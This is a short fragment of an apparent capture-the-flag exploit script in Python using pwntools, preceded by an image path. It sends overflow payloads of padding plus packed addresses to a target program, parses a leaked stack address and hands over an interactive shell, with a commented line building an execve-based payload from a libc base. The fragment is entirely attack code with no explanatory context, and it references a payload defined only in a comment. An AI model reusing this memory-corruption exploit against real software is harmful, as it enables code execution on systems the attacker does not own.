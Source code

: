 ```python
# payload_exec=b'a'*8+p64(execve[6]+libc_base)
# 发送最终的 payload 并交互  
target.recvuntil(b"who are you?\n")  

target.sendline(payload_exec)  
# pause()
target.recvuntil(b"card number ")  
buf_start2=int(target.recvline()[:-1],16)
print(f"buf_start2: {hex(buf_start2)}")
payload_3=b'a'*8+p64(buf_start2)  
target.sendafter("Have a good time!\n",payload_3)  
# pause()
target.interactive()
```

